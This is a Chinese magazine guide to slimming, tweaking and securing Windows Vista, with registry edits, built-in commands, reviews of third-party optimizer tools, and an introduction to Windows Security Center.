②Vista的视觉效果DWM：对低端显卡来说，安装完成后Vista后是不会打开玻璃效果的，如果你确实希望体验这种效果所带来的视觉冲击，那么可以尝试强制打开DWM效果。不过，如果单击“强制开启DWM玻璃效果”这个按钮后，仍然无法开启这种效果，那么当然是说明你的显卡从硬件上不支持啦，请勿再次点击。
③开机自动登录系统：不用再多说这个选项的实用性了吧？

#### 3. Vista Manager

除了提供优化、清理等功能之外，Vista Manager还提供了非常丰富的设置选项，虽然是英文界面，但使用起来并不是太复杂，这里简单介绍一下：

##### （1）Customization：个性化设置

如果你使用的是公用计算机，那么这里的功能不可不看，有些在常规手段下还是比较难实现的呢。

-   ①Customize System：个性化系统
这里提供了更改操作系统版本、制造号码、产品ID、注册用户、注册组织、安装路径等安装信息的功能。还可以隐藏开始菜单中的相关项目、锁定所有任务栏设置、阻止用户调整任务栏大小、屏蔽桌面图标及功能或者退出系统时禁止更改桌面设置，不过笔者觉得最有趣的是可以禁用Vista立体窗口的切换。
-   ②Context Menu：鼠标右键
相信很多朋友都曾遇到过右键菜单被“入侵”的尴尬事，现在，我们只要通过“Clean Context Menu”进行清理即可，这里提供了针对所有文件系统对象、文件、文件夹、驱动器、IE浏览器、发送到、新建等各种右键菜单的清理功能，实在是超级强大和实用；另外，假如你的右键菜单出现紊乱，那么可以通过“修理右键菜单项目”进行修复。

##### （2）Security：安全设置

尽管Vista以安全性著称，不过Vista Manager提供的安全设置选项显然更为丰富，这里包括了系统安全、驱动器及程序、文件及文件夹、隐私保护等四个方面的安全保护。

##### （3）Network：网络设置

这里的功能虽然没有什么出彩之处，不过我们还是可以在“IE Manager”中找到很多实用的功能。如屏蔽或反安装各种插件之外、清理右键菜单、自动检查IE收藏夹的网址是否有效、自动修复或重新安装IE等。

##### （4）Misc.Utilities：杂项

如果由于某种原因，你竟然“不慎”忘记了Windows Vista的安装密钥，那么完全不用担心，只要进入“Product Key”标签页，右侧窗格中就会显示出产品名称、产品注册码、产品ID等相关信息，赶快拿笔记录或者复制后进行保存吧，不过如果你的Vista Manager是免费的试用版本，那么产品注册码的最后一组代码会显示为“[Trial Version]”的字样。

总的来说，发布时间尚短的Windows Vista对很多朋友来说，还是一个必须加强学习的新系统，而向来喜欢缝缝补补的Windows，也许真的需要等到Vista发布SP1补丁包才能说是真正适合大众安装使用呢。

文/王志军

## 一、减肥攻略

作为全新一代的操作系统，Windows Vista在带来众多炫目功能的同时，也对硬盘空间提出了更高的要求，安装向导对系统分区就提出了“可用空间8GB以上”的要求，而随着使用时间的增加，系统分区所耗用的硬盘空间还会越来越大，如果不注意“减肥”，不仅会影响系统运行速度，甚至可能会导致系统出现这样或那样的故障。在这种情况下，如何为Vista进行“瘦身运动”，就是一件非常有意义的工作了：

### 1. 禁用休眠功能

默认设置下，Windows Vista和Windows XP一样，安装完成后会自动启用休眠功能，此时系统分区的根目录下会自动创建一个名为 hiberfile.sys 的大文件，其个头与物理内存的大小等同(见图1)，对于现在动辄使用2GB内存的用户来说，这些空间的浪费实在是有些心痛，更何况对于那些从不使用休眠功能的用户而言，启用休眠功能更是毫无必要。

如果你愿意的话，当然可以进入控制面板找到“电源选项”进行设置，但操作起来相当麻烦，而且又是很多朋友望而生畏的英文界面，说不定找了很长时间还没有摸准方向。其实，我们有一个非常简单的技巧来关闭不需要的休眠功能，按下“Win+R”打开运行对话框，输入“powercfg -h off”命令即可禁用休眠，连重新启动都不需要，然后你会发现系统分区根目录下的 hiberfile.sys 文件已经被自动删除，当然假如你什么时候需要启用休眠功能，再次输入“powercfg -h on”命令就可以了。

### 2. 转移分页文件

右击桌面上的“计算机”图标，从快捷菜单中选择“属性”进入“系统”窗口，在左侧的任务窗格中选择“高级系统设置”，这样就可以进入我们非常熟悉的系统属性窗口，请切换到“高级”选项卡，在这里单击“性能”小节的“设置”按钮，再次切换到“高级”选项卡，单击“虚拟内存”小节的“更改”按钮，Windows会在硬盘上自动划定一块区域作为分页文件的存储空间，而这块空间是物理内存的1.5倍(见图2)，你不妨设想一下是多么的大。

现在，你应该已经进入“虚拟内存”对话框，首先在这里取消“自动管理所有驱动器的分页文件大小”复选框，然后在下面的列表框中选定一个很少读写数据、可用空间较大的驱动器，为其设置好分页文件的大小，当然最后必须单击“设置”按钮才能生效，至于其他的驱动器嘛，可以选择“无”。如果你的计算机上同时安装了Windows XP，## Vista 完全攻略

建议两个系统的分页文件设置在同一驱动器，当然大小也要相同哟！

### 3. 手工指定还原设置

Windows Vista 使用“系统保护”这个名称取代了 Windows XP 时代的“系统还原”，除了名称的改变外，功能方面也有很大的变化，需要指出的是，“以前版本”与我们熟悉的“系统还原”有着很大的区别，我们可以使用以前版本的文件还原意外修改、删除或损坏的文件，根据文件或文件夹的类型，你可以打开、保存到其它位置，或者还原以前版本。

启用此项功能后，如果打开某个受系统保护的磁盘所在的文件夹或文件的属性窗口，你会发现这里增加了一个“还原以前的版本”选项卡，在“文件版本”列表框中显示了系统自动保存的卷影副本，在这里选中某个版本后，单击右下角的“还原”按钮，确认后即可将文件还原到上一个版本。

需要指出的是，Windows Vista 安装完成后将只对系统磁盘启用“系统保护”，此时卷影副本将自动保存为“系统属性”中还原点的一部分。Windows 将自动创建自上次做出的还原点之后修改的文件的卷影副本，通常是每天一次，这样所占用的硬盘空间也会令你相当吃惊。其实，我们可以根据自己的需要，仅对某些特定的磁盘创建还原点以启用系统保护，而那些不太重要的磁盘，完全可以关闭系统保护(见图 3)，这也可以节省相当一部分硬盘空间呢。



### 4. 转移“我的文档”

和以前的操作系统一样，Windows Vista 会将 My Pictures、My Music、联系人、收藏夹、文档、搜索、视频等内容一古脑儿的放在“我的文档”下，而它的默认路径当然就是系统的根目录，假以时日，你会惊奇地发现系统所在的分区中，硬盘空间急剧下降。

必须指出的是，Vista 已经没有了以前的“我的文档”，取而代之的是“用户”文件夹，当你以某个账户登录系统后，桌面上会显示一个以账户名命名的文件夹。不过，如果右键单击桌面上的这个账户文件夹，你再也不会发现以前非常熟悉的“属性”命令，这样自然也就无法移动账户文件夹的默认路径了，难道真的是如此吗？

别着急，双击打开桌面上账户文件夹的下一级窗口，这里出现了令人惊喜的内容，再次右击任意一个文件夹，嘿嘿，盼望已久的“属性”选项终于出现在快捷菜单中，接下来的操作自然非常简单，打开属性窗口后，切换到“位置”标签页，如图 4 所示，现在你想怎么移就怎么移吧。当然，即使移动后出现什么问题，你也完全不用担心，直接单击“还原默认值”按钮即可快速还原初始设置，接下来你就放心的去玩吧。



### 5. 选择精简版本

其实，与其亡羊补牢，不如未雨绸缪，我们完全可以在安装之前完成相关的精简工作。在这方面可以选择 vLite，目前最新版本是 0.9，下载地址为 http://www.vlite.net/download.html，它的界面和使用方法与著名的 nLite 大致相仿，它需要.Net Framework 2.0 或更高版本才能运行。

或者，你也可以直接下载热心网友提供的精简版本，据称有人曾经将 Windows Vista 的安装光盘精简至 700MB，这样就可以将其刻录到 CD 光盘上了。不过，出于系统安全性的考虑(例如恶意添加的木马、病毒程序)，建议还是手工精简为妙。

### 6. 手工减肥

除了上面提到的方法，我们还可以将系统分区中的那些不需要的“无用”文件清理掉，怎么着也得挤出 1-2GB 的空间出来，减肥时不妨参考下面提到的内容：

- (1) C:\Windows\Web\Wallpaper
这里是 Windows 自带的墙纸，不喜欢的大可删除，或者暂时先转移到其他路径下。

- (2) C:\Windows\System32\DriverStore\FileRepository
这里是 Windows 自带驱动程序的备份，容量足足有 1GB 左右，而其中大多数并不是我们所需要的，你可以有选择的删除那些一次性安装的设备驱动程序，特别是那些根本不可能用到的东西，例如下面几个驱动文件尽管可以放心删除：

    - ati*.inf: 是 AMD/ATi 的芯片的显卡和主板驱动程序，如果你根本不使用这两家的产品，大可放心删除。
    - mdm*.inf: 是 Modem 的驱动程序，相信早就没有人去使用了吧。
    - nv*.inf: 是 nVIDIA 的芯片的显卡和主板驱动程序，如果你并不使用它的产品，同样可以放心删除。
    - prn*.inf: 打印机驱动程序，由于购买打印机时都会提供驱动光盘，因此完全可以删除，不过 mms001.inf、prnoc001.inf、prnms002.inf 这三个文件并不是打印机驱动，建议保留。

C:\Boot: 这里是不同语言的 Windows 启动文件，除了 zh-CN 外都可以删除，不过由于该文件夹的个头并不大，

## 二、优化攻略

即使你使用了顶级配置的计算机系统，例如四核处理器、海量双硬盘、双显卡、巨量内存，但“系统优化”这个工作仍然是免不了的，这里我们同样介绍一些相关的优化技法：

### 1. 用数字键启动程序

可能很多朋友并不知道，其实除了鼠标单击快速启动栏中的快捷方式图标之外，我们还可以通过快捷键来实现，快捷键的组合依据是“Win+ 数字序号”，这里的数字序号取决于快速启动栏中各个快捷方式的排列顺序，如果是排列在第 1 位（从左边开始计数），那么只要按下“Win+1”，排列在第 2 位是按下“Win+2”，依次类推，这个功能可以在某种程度上提高鼠标的使用寿命。

当然，如果你觉得内置在快速启动栏上的快捷方式太少，完全可以自由添加，手工添加的快捷方式同样可以通过“Win+ 数字序号”快速启动。

### 2. 为小内存机器提速

由于这样或那样的原因，相当一部分已经用上了 Windows Vista 操作系统的用户，机器中的物理内存却没有达到微软的推荐标准，例如目前比较常见的 512MB，虽然可以正常使用甚至得以启用 Aero 效果，但运行的速度并不令人满意。在这种情况下，如果你的机器不太方便增加内存，例如笔记本电脑，那么可以利用“ReadyBoost”这项技术来为小内存机器提速。

如果你对 Windows Vista 有了一定的了解，那么应该对“ReadyBoost”这个名词不会陌生，这项技术可以利用某些可移动介质设备上的存储空间来提高计算机速度，也就是将这些可移动设备上的存储空间虚拟为 SuperFetch 缓存，从而借助高速随机访问能力为系统进行加速。

看到这里，可能很多朋友都开始动心，确实利用价格低廉的闪存盘来为 Vista 系统加速是一件非常划算的事情，毕竟另行添加 512MB 的内存并不是一件容易的事情，更何况某些机型可能根本无法额外增加内存（例如笔记本）。究竟你手头的闪存盘是否真正支持 ReadyBoost，除了标称最小存储空间大于 256MB 之外，还需要符合下面提到的三个条件：

- （1）支持 USB 2.0，由于 Vista 只能使用快速闪存为计算机提高速度，因此如果设备包含慢速闪存和快速内存，那么只能使用快速内存部分来提高计算机的速度。
- （2）随机读取 4KB 文件的速度达到 2.5MB/S
- （3）随机写入 512KB 文件的速度达到 1.75MB/S

这里要说明的是，用于 ReadyBoost 加速的闪存盘容量建议不超过 4GB，主要是由于 FAT32 文件系统的限制，闪存上的缓存文件大小不能超过 4GB，超出 4GB 的部分仍然可以用来存储其他数据。在 Vista 系统下，当插入支持 ReadyBoost 的可移动介质设备时，例如 USB 驱动器（闪存盘或移动硬盘）、数码存储卡等，Vista 会弹出一个自动播放的对话框（见图 5），询问是否加速系统。如果没有看到这个提示，可以右击打开闪存盘的属性窗口，切换到“ReadyBoost”选项卡，如果你的闪存可以通过测试，那么将看到是否开启 ReadyBoost 加速的对话框，以及划分多少空间用于系统加速，设置完成后即可成功开启 ReadyBoost 功能。



### 3. 让安全盾不再烦人

Windows Vista 对安全的重视是前所未有的，微软的高官曾经声称，即使不安装杀毒软件，也可以保证系统的安全。不过，假如你的系统真的没有安装杀毒软件，那么系统托盘中会显示挥之不去的盾形图标，即使进入服务窗口停止“Security Center”服务后仍然照样显示，着实有些讨厌。

如果你对系统的安全性有足够的自信，而且又确实不希望这个盾形图标继续显示，那么可以右击图标选择“打开安全中心”，当进入“Windows 安全中心”窗口后，在左侧导航栏中单击“更改安全中心通知我的方法”，在这里选择“不通知我，且不显示该图标(不推荐)”，确认后即可生效。

### 4. 移除 IE7 中的搜索框

IE7 内置的搜索框非常好用，只要在右上角的搜索框中输入关键字，回车后即可调用默认的搜索引擎进行搜索。不过可能有些朋友并不喜欢这个“强加于人”的搜索框，例如笔者就更习惯于跳转到搜索引擎页面进行操作，毕竟这里提供了更为丰富的搜索选项。

我们可以通过对注册表的简单修改，将这个内置的搜索框隐藏起来。打开注册表编辑器，逐级展开进入“HKEY_CURRENT_USER\Software\Policies\Microsoft”分支，在这里找到“Internet Explorer”项，其下有一个名为“Infodelivery”的子项，在这个子项下会发现“Restrictions”子项，如果没有的话可以自己手工新建；选择“Restrictions”子项，然后在右侧窗格中新建一个名为“nosearchbox”的DWORD(32-位)值，赋值为“1”，最后执行刷新操作并关闭注册表。

重新打开IE7，现在你会惊奇的发现窗口右上角的搜索框已经踪影皆无(见图6)，以后需要使用这个搜索框时，可以再次进入注册表编辑器，将“nosearchbox”的赋值重置为“0”，或者干脆直接删除相关项和子项即可。



图 6

### 5. 在桌面上新建程序兼容性向导

如果曾使用过 Vista 的测试版本，那么会知道以前桌面上是有“程序兼容性向导”这个组件的，但在正式版本中却被去除了，现在你无论是在桌面还是在开始菜单，都不会发现程序兼容性向导的影子，有些高手会通过“帮助和支持”找出程序兼容性向导的入口，但对新手来说，确实还是有些困难。

按照下面的方法，我们可以在桌面上新建程序兼容性向导的快捷方式，以后只需要直接双击即可启动：

右击桌面选择“新建→快捷方式”，在随后弹出的对话框中输入“%systemroot%\System32\mshta.exe res://acprgwiz.dll/compatmode.hta”，以此作为项目的位置，然后为这个快捷方式取一个名称，建议还是取名“程序兼容性向导”，最后确认即可。

### 6. 去除快捷方式上的小箭头

桌面上各个快捷方式上的小箭头看起来显然不太美观，就像一条令人讨厌的小尾巴，不过 Vista 系统下并不像 XP 那样容易搞定，毕竟相关的优化软件可以说是少之又少。按照下面的方法可以快速去除快捷方式上的小箭头，而且不需要重启系统：

按下“Win+R”组合键打开运行对话框，在这里输入“regedit.exe”进入注册表编辑器，逐步定位至“HKEY_CLASSES_ROOT\lnkfile”，在右侧窗格中删除字符串“IsShortcut”；单击开始按钮，单击“所有程序→设置默认程序”，当打开“设置默认程序”窗口后，在左侧列表中任意选择一个程序并将其设置为默认值，然后你就可以发现桌面上的那些快捷方式上的小箭头已经消失(见图7)。


图 7

不过，这种方法带来的后遗症就是资源管理器中“收藏夹”链接下的内容已经自动消失，而且显示为“(空)”。如果你希望两全其美，那么可以再次进入注册表编辑器，重新创建“IsShortcut”字符串值，但具体数值不要填写，再次设置默认程序即可。

### 7. 在命令行下自动完成

在 Vista 系统下，Tab 键可以与“Win”键组合提供 Windows Flip 3D 效果，其实可能很少有朋友会注意到，这个键还可以在命令提示符环境下实现自动完成功能。具体来说，在命令提示符环境中，按下 Tab 键后系统会自动补完命令或文件名，这在需要操作某些长文件名时将相当实用。

例如我们需要进入“\Program Files\Common Files”文件夹，这当然是使用“CD”命令，然后在后面跟上完整的文件夹名称，不过此时你只需要输入“CD P”，然后不按下回车键(Enter)，而是按下 Tab 键，此时系统会自动搜索当前路径下所有以“P”打头的文件或文件夹，并将该目录名自动填充到“CD P”中，此时你会看到这里自动为“Program Files”给出了双引号以示区别，接下来再输入“CD C”，同样可以看到以双引号隔开的“Common Files”文件夹(见图8)，这显然是比单纯地按下回车键要简洁多了。



图 8

这里需要说明的是，如果 Tab 键自动给出的并不是你所希望的“CD Common Files”目录，那就说明当前路径还存在其他以“C”打头的目录，此时你可以持续按下 Tab 键进行选择，或者在输入命令时尽可能多的给出限制字符，不过显然还是继续按下 Tab 键更方便一些。

当然，Tab 键的自动完成功能并不仅仅只是针对“CD”命令，事实上这个功能适合于命令提示符环境下的大多数命令，例如“EDIT”、“TYPE”等，感兴趣的朋友不妨一试。

补充：上面提到的 Tab 键自动完成功能，其实在 Windows XP 系统下也可以正常使用，不过假如你需要在 Windows 2000 系统下使用，那么需要进入注册表编辑器，找到“HKEY_LOCAL_MACHINE \SOFTWARE \Microsoft \Command Processor”子键，在这里新建一个名为“CompletionChar”的 DWord 键，并赋值为“00000009”，刷新后即可生效。

### 8. 激活隐藏的菜单栏

默认设置下，Vista 系统下很多组件都是不会提供经典的菜单栏的，例如资源管理器、IE7，使用起来颇为不便，例如过去经常使用的“文件夹选项”恐怕很多朋友就不太容易找到它的踪影。

其实，在任意一个打开的窗口中，例如资源管理器中只要按下 Alt 键，你就会发现原来已经被自动隐藏的菜单栏又出现了，当然这只是临时性的显示，因为再次按下 Alt 键后会将其关闭，如果你需要永久显示的话，那么还需要在“组织”下拉菜单中进行相关的设置；如果你希望在 IE7 中显示经典的菜单栏，同样只需要按下 Alt 键即可，需要永久显示时可以在“工具”下拉菜单栏中勾选“菜单栏”启用；如果是在 Office 2007 的窗口中，按下 Alt 键会显示相应功能的字母快捷键，按下字母后会再次显示相应的数字快捷键，按下数字即可实现相关的功能，虽然看起来有些眼花缭乱，不过用熟练后你就会感到是那么的方便，就像高手都喜欢使用 TC 那样。

### 9. 任意定义性能得分

我们知道，Windows Vista 的性能得分完全取决于各项子分数中的最低得分。很多时候，即使使用了顶级硬件，但由于这样或那样的原因，基本分数可能并没有如你所愿得到相应地提高，其实我们完全可以按照自己的意愿，自由定义这个性能得分：

进入 X:\Windows\Performance\WinSAT\DataStore\，这里的“X”代表安装 Windows Vista 操作系统的盘符，请根据实际情况进行更改。现在你可以发现这里有一个类似于“2007-02-08 21.05.48.102 Assessment (Formal).WinSAT.xml”的文件，如果你曾更新过 Windows 体验索引的得分，那么这里可能会有好几个这样的文件，选择一个日期最新的文件，右击调用记事本打开并进行编辑，按下“Ctrl+F”组合键打开查找对话框，以“<SystemScore>”为关键字进行搜索，很快就可以在这里发现我们需要修改的目标，“<MemoryScore>”是表示内存子系统的得分，“<CpuScore>”是表示处理器的得分，“<DiskScore>”是表示主硬盘的得分，其余的依次类推。

修改性能得分的方法很简单，主要是对“<SystemScore>”后面的得分进行更改即可，例如这里更改为“5.7”，注意这个值不允许超过 9.9 分，否则将无法正常显示出来，退出时注意保存，如图 9 所示。现在我们就可以看到 Windows 体验索引的基本分数已经更改为“5.7”，但与下面的最低子分数并不相同，很明显这是一个非常容易暴露的漏洞。如果你希望能够看起来天衣无缝，那么还需要对 XML 文件中的其他子项目的得分继续进行修改，毕竟过把瘾也是好的。



### 10. 集成显卡也能启用 Aero

对于使用独立显卡的用户来说，如果满足“内存 1GB、显卡支持 DirectX 9.0、显存 64MB 以上”这些条件，那么安装 Vista 系统后会自动启用 Windows Aero，但如果使用的是集成显卡（例如 GMA 950），虽然支持 DirectX 9.0，但很多机型的物理内存容量并没有达到 1GB，在这种情况下 Windows Aero 是不会自动启用的。如果遇到这个问题，那么可以按照下面的办法手工启用：

- （1）进入注册表编辑器，修改如下两处键值：
    - HKEY_CURRENT_USER\Software\Microsoft\Windows\DWM\Composition：键值设置为“1”
    - HKEY_CURRENT_USER\Software\Microsoft\Windows\DWM\CompositionPolicy：键值设置为“2”
- （2）手工加载 uxsms 服务
    打开运行对话框，输入“net stop uxsms”，执行完成后再次进入运行对话框，输入“net start uxsms”，执行完成后重启系统就可以了。

小提示：会闪烁的 Aero 效果
打开设备管理器窗口，这里显示了所有系统下安装的硬件设备（不管是否安装了驱动程序），如果你的机器在硬件上支持 Windows Aero，而且系统已经启用 Windows Aero 效果，那么请随便打开一个属性窗口，将鼠标放到右上角的“×”或“？”两个按钮处，注意看，这里发生了什么？嘿嘿，原来这个图标会不停地闪烁，看起来非常有意思。

不过需要强调的是只有在设备管理器中的各个设备属性窗口中才有这样的效果，其他的组件都没有这个待遇。

这款软件可以说是 Windows Vista 系统优化中的瑞士军刀（桌面上的快捷方式图标就是一把瑞士军刀），可以说是一款大师级的优化工具，具体来说可以分成如下几个方面：

## 三、第三方优化软件

由于 Windows Vista 发布的时间还不是太长，因此相关的第三方优化软件并不是很多，不过 TweakVI、Vista 优化大师、Vista 总管等都是不错的选择，这里简单介绍一下相关的情况：

### 1. TweakVI

这里仅就优化这个角度对 TweakVI 进行介绍。除了相关的手工调整选项之外，如果你使用的是 premium 或 ultimate 之一的版本，那么可以通过“自动优化系统”对系统进行全自动的优化(见图 10)，如果是免费版本就免谈了。



### 2. Vista 优化大师(见图 11)



最新版本：1.06
使用授权：免费
下载地址：http://www.vista123.com/

#### （1）系统优化

##### ① 内存及缓存优化

可以手工选择二级缓存和物理内存的大小，Vista 优化大师会根据你的设置自动优化系统的性能，假如你对相关参数不太了解，那么可以单击“自动设置”按钮，这是一种比较安全的做法。

##### ② 开关机速度优化

这里提供了比较多的开机速度优化项目，例如启动时禁止检测 IDE 驱动器、启动时禁止更新组策略、系统崩溃时禁止记录事件日志、禁用应用程序加速(副作用是降低应用程序的启动速度)、禁用启动时的磁盘扫描等；对关机速度的优化则提供了应用程序响应时和发生错误时的等候时间、服务被终止时的等候时间这三个设置项，你只需要简单地拖曳滑块调整至适当位置即可。

##### ③ 多媒体优化

在这里可以选择是否需要禁用 Windows 媒体中心、禁止运行导入的媒体文件、禁止光盘自动运行、禁止 USB 设备自动运行，比较有意思的是，我们还可以在这里选择禁用 Windows 图片传真查看器、禁用 Windows 光盘刻录功能，这些可是不太容易做到的哟。

##### ④ 系统优化设置

这里的相关选项仍然是主要用来对系统进行加速，例如自动关闭停止响应的应用程序、加快菜单显示速度、启用大系统缓存、自动清除内存中已不使用的 DLL 文件，比较实用的是这里还可以修改 IE 同时连接的最大线程数，这下你就不需要再从网上下载那些所谓的连接数破解补丁了。

#### （2）网络优化

##### ① 网络加速

首先当然还是需要根据实际情况选择上网方式，然后可以对最大传输单元、传输单元缓存区、默认分组报文寿命、域名服务器超时时间进行手工设置，这里还可以启用 MTU 的自动检测功能、黑洞路由器探测功能、选择性协议功能、网卡处理器功能。

##### ② 网络设置

如果你的电脑处于局域网中，那么可以在这里选择隐藏本机名称、隐藏网上邻居中的“整个网络”，还可以禁止运行 Windows Messenger、禁止系统自动搜索网络上的资源，毕竟自动搜索也是需要占据一定的资源的。

##### ③ 网络共享

可以在这里禁止默认的管理共享及磁盘分区共享、限制 IPC$ 的远程默认共享，如果你使用的是公用计算机，建议勾选“不保存访问过的共享文件夹位置”复选框。

##### ④ IE 设置

这里其实还是“Internet 属性”中的内容，但集中了多个选项卡中的实用设置项，例如“在新标签中打开网页”、“在程序中点击链接打开新 IE 窗口”，这样使用起来就方便。

#### （3）系统清理

##### ①注册表清理

由于注册表的重要性，建议清理之前首先“备份注册表”，这样以后一旦出事，可以通过“还原注册表”进行恢复，然后就可以扫描注册表中的垃圾信息并进行清理，当然在正式清理之前还是会要求用户进行确认。

##### ②磁盘冗余文件清理

首先选择目标磁盘，然后单击“开始查找冗余文件”按钮，完成查找后会显示一份详细的清理清单，选择后即可将其清理干净。

### 3. Vista Manager(见图12)



最新版本：1.1.0
使用授权：共享
下载地址：http://www.yamicsoft.com.cn/vistamanager/
这款软件可以对 Windows Vista 进行各种优化和激活隐藏的设置，适用于各种版本的 Vista 系统，包括 Vista Starter、Vista Home Basic、Vista Home Premium、Vista Business、Vista Business N、Vista Ultimate，只要求提供 10MB 的可用空间即可。

#### (1) Optimizer：优化

这里提供了 Speed System(系统提速)、Service Manager(服务管理)、Startup Manager(启动管理)、Multimedia(多媒体)、System Repair(系统修复)等优化项目，可以让配置不是太高的用户通过系统优化提高 Vista 的运行效率，这里介绍几个比较实用的模块：

##### ① Speed System

在这个功能模块中，Vista 总管从系统速度、开机引导速度、关机速度三方面进行了优化，用户只需要简单地鼠标勾选相关复选框或者拖曳滑块至适当位置就可以了。

##### ② Startup Manager

这里详细的列出了所有的启动项目，包括启动文件夹、注册表、系统服务等三个方面，每个启动项目均提供了十分详细的参考信息，你可以非常简单地关闭某些不需要的启动项，从而减少资源浪费。

##### ③ Multimedia

这个优化项目是其他软件较少提供的，你可以在这里设置是否自动运行插入的 CD 或 USB 设备，比较实用的是可以在这里禁止预览 AVI 等视频文件，甚至还可以关闭 Windows 图片和传真查看器，如果你已经安装了 Nero 等专业性刻录软件，那么可以考虑关闭内嵌的刻录功能。

#### (2) Cleaner：系统清理

平心而论，这里提供的智能卸载其实与系统自带的“控制面板→卸载程序”功能大致相仿，而“Registry Cleaner”和“Registry Defrag”两个功能又过于危险，建议还是只清理文件为妙。

##### ①清理垃圾文件

如果需要清理系统中的各种垃圾文件，例如各种临时文件、丢失簇的恢复文件、旧备份文件、错误文件、诊断文件、扫描磁盘日志文件等，那么可以选择“Junk File Cleaner”，然后勾选需要扫描的磁盘，接下来单击窗口顶部的“Scan”按钮，经过一个短暂的扫描过程，接下来会提供一份非常详尽的垃圾文件列表，并且会告诉你清理后可以节约的磁盘空间，你只要选择“删除”按钮就可以将它们从系统中安全清理出去，当然删除这些文件都是绝对安全的。
如果你只需要清理某些特定格式的垃圾文件，那么可以单击窗口顶部工具栏上的“Options”按钮，打开“Junk Cleaner Options→Files Type”窗口进行设置，或者也可以自行添加列表框中所没有的垃圾文件格式。

##### ②查找重复文件

由于这样或那样的原因，例如多次备份或复制，我们的系统中总是分布着各种各样的重复文件，有时甚至会有许多份，既占据了太多的磁盘空间，又非常不利于文件的管理。Vista Manager 提供的“Dup.Files Finder”功能可以说是相当的实用，首先勾选需要分析的磁盘，然后单击窗口顶部工具栏中的“Start”按钮，稍作等待，很快就可以分析出一份详细的重复文件清单，你可以按照文件名、路径、大小、修改时间等项目进行排序，然后只要根据不同情况删除某些不再需要的版本。

##### ③一键清理

在左侧的任务窗格中选择“Information→1-Click Cleaner”，这就是所谓的一键清理功能，确认后程序会对系统进行自动清理，清理的对象包括磁盘中的文件或文件夹、注册表，其中完全不需要用户进行人工干预，可以说是100%的一键清理，不过也带来了安全方面的隐患，建议尽可能不要使用这个功能。

不过，这款软件只提供了15天的试用时间，而且如果处于没有注册的话，每隔5分钟就会弹出一个版权提示窗口，虽然不影响操作，但还是比较令人讨厌的。

总的来说，发布时间尚短的 Windows Vista 对很多朋友来说，还是一个必须加强学习的新系统，而向来喜欢缝缝补补的 Windows，也许真的需要等到 Vista 发布 SP1 补丁包才能说是真正适合大众安装使用呢。

## # Windows Vista 安全攻略

文 / 张金贵

随着计算机在人类生产、生活各个领域的广泛应用，计算机的作用越来越重要，同时，它的安全也越来越受到人们的重视。计算机病毒的不断产生和传播，尤其是 Internet 的普及，给病毒的传播带来了更加便利的条件，网络黑客也在利用各种手段进行非法入侵，窃取重要信息或者攻击计算机造成网络瘫痪。这已经给各个国家以及众多公司造成巨大的经济损失，甚至威胁到国家和地区的安全。因此，计算机系统的安全问题是一个关系到人类生活和生存的大事情，必须充分重视并设法解决它。

Windows Vista 的安全功能得到了大大的提升，使它成为迄今为止安全功能最强大的 Windows 版本。利用 Windows 安全中心可以自动更新最新的程序，配置防火墙防止网络攻击；利用 Windows Defender 可以扫描和清除间谍软件；用户账户控制(UAC)可以防止安装未经授权的应用程序；家长控制功能可以让家长自由控制孩子玩哪些游戏，上哪些网站，玩电脑时间的长短；增强的本机安全策略设置更给用户配置计算机安全带来了极大的方便。

## 一、Windows 安全中心

“Windows 安全中心”是 Windows Vista 中的一个安全工具，它负责检查计算机的安全状态，包括防火墙、自动更新、恶意软件防护（包括病毒和间谍软件）、Internet 安全设置和用户控制设置，帮助增强计算机的安全性。如果 Windows 检测到这些安全选项中的任何一个存在问题（例如防火墙被关闭），安全中心将显示一个通知，并且将在通知区域中放置一个图标，提醒用户计算机存在安全问题，这样就可有效保证计算机的安全。

### 1. “Windows 安全中心”的功能

“Windows 安全中心”作为管理 Windows Vista 安全设置的神经中枢，其重要性可想而知。“Windows 安全中心”随着系统的启动在后台默默运行，随时检测用户计算机中防火墙、自动更新、反恶意软件设置、Internet 安全设置和用户账户设置的状态。

-   (1) 防火墙
“Windows 安全中心”会检测到防火墙是否已经开启，同时它还会通过查询特定的 WMI 供应商来检测是否存在其他软件防火墙。如果检测到其他反病毒软件的存在，“Windows 安全中心”还会确定该软件是否是最新版本并且已启动了实时扫描功能。

-   (2) 自动更新
“Windows 安全中心”会检测并确保“自动更新”的设置为推荐的状态，比如自动为用户下载并安装紧急更新。如果“自动更新”被关闭或被配置为非推荐设置，“Windows 安全中心”将会为用户提供适当的建议。

-   (3) 防病毒软件检查
尽管 Windows Vista 本身并不提供防病毒软件，但“Windows 安全中心”会检测当前系统中是否安装有防病毒软件，如果安装了防病毒软件，还会检查该防病毒软件的病毒定义代码是否保持更新，并给用户提出各种安全建议。

-   (4) 恶意软件保护
Windows Vista 随机带有 Windows Defender 反恶意软件工具，可以帮助保护计算机免受恶意软件和不必要的软件（如间谍软件和广告软件）的侵害，并且 Windows Defender 可以保持自动更新，以防止所产生的恶意软件对计算机的破坏。

-   (5) Internet 安全设置
通过增强的 Internet 安全设置，可以筛选仿冒网站、阻止弹出窗口、管理加载项、审查网站内容、添加数字签名、更改隐私设置、提高安全级别，以便用户能够更安心更安全地上网。

-   (6) 用户账户控制
通过启用用户账户控制功能，所有计算机用户包括标准用户和管理员都将以标准用户模式运行，未经许可，将无法对计算机进行更改。“Windows 安全中心”可以监视用户账户控制功能是否打开。

### 2. “Windows 安全中心”的安全设置报告

用户单击“开始→控制面板→安全→安全中心”就可以打开“Windows 安全中心”界面（见图 1）。



窗口的左边窗格中是各种安全项目的链接，右边窗格是 Windows 检测到的当前安全设置报告，共有四项，包括防火墙、自动更新、恶意软件保护和其他安全设置，并且以红、黄、绿色表示不同安全选项的状态：

-   (1) 红色表示该项功能被禁止或无法检测到，计算机处于危险状态。
-   (2) 黄色表示用户正在使用自定义的防病毒程序或防火墙进行自我监控，安全中心不会监视病毒保护状态，并且不会在其关闭或过期时发送警报。
-   (3) 绿色表示 Windows 安全中心组件均处于安全和最新的状态，系统处于 Windows 监控状态下，不会出现任何警报。

小提示：单击每个项目右侧的箭头按钮，可以展开该项目，查看更详细的设置。

默认情况下，系统会在任务栏的通知区域出现一个‘Windows 安全警报’的盾形图标，提示系统当前所处的安全状态。双击该图标即可打开‘Windows 安全中心’，了解系统提供的安全建议。只要安全问题没有得到解决，那么每次启动计算机后，任务栏上的安全警告盾形图标都将显示警告信息。

## 二、Windows 防火墙

